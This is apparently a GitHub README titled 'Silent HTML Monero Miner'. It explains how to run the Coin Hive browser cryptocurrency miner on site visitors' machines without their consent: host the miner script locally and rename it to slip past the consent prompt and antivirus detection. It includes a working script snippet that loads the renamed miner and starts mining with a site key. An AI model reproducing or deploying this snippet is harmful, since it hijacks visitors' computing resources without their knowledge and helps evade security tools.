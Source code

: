 # Coin-Hive_Hidden-Miner.github.io

<h2>Silent HTML Monero Miner</h2>

 :trollface: :trollface: :trollface: :trollface: :trollface: :trollface::trollface: :trollface: :trollface: :trollface: :trollface: :trollface:

https://jonnybanana.github.io/Coin-Hive_Hidden-Miner.github.io/

![Alt text](https://raw.githubusercontent.com/JonnyBanana/Coin-Hive_Hidden-Miner.github.io/master/img/coinhive-icon.png)

I have created this simple html page as a demonstration on how to make hidden the javascript miner of Coin Hive.<BR>
In fact, even if the site says that you can not use the miner without the consent of the user, in reality, things are very different ...</BR>
In part however it is true what they say, in fact if you try to call the .js file of the miner directly from their servers, that is:

https://coinhive.com/lib/coinhive.min.js?v8</BR>
https://authedmine.com/lib/authedmine.min.js?v8

you will see that the user's consent will be required, but the thing is easily circumvented, in fact just host the .js file directly on the server where you host the html page you want to use for the miner, for security I also changed the file name, since now the miner is well known by the vendor antivirus and company ....

<h3> Requirements </h3>

* a Coin Hive Account (https://coinhive.com)
* a Monero Wallet to make the withdraw  (https://mymonero.com/#/)
* a Web Server or a Website (also Github)
* a Coin Hive site key


<h3> Browser Compatibility </h3>

All

<h3> How it Works??? </h3>

![Alt text](https://raw.githubusercontent.com/JonnyBanana/Coin-Hive_Hidden-Miner.github.io/master/img/screenshot.JPG)

https://coinhive.com/documentation/miner#constructor-options

https://coinhive.com/lib/coinhive.min.js?v8

 <script src="https://jonnybanana.github.io/Coin-Hive_Hidden-Miner.github.io/pino.js"></script>
<script>
 var miner = new CoinHive.Anonymous('YhWQAh8Vm7tIshKjOsp75jpDDVaO5kkU', {throttle: 0.2});
  miner.start();
</script> 

![Alt text](http://www.imigliorifaucet.it/g1.gif)




<h3> Curiosity </h3>

The image PNG used as background in this example is actually a simple algorithm designed / written in PIET.</BR>
Who wants can test it in the online interface from here: https://www.bertnase.de/npiet/npiet-execute.php


![Alt text](https://raw.githubusercontent.com/JonnyBanana/Coin-Hive_Hidden-Miner.github.io/master/img/bit.png)
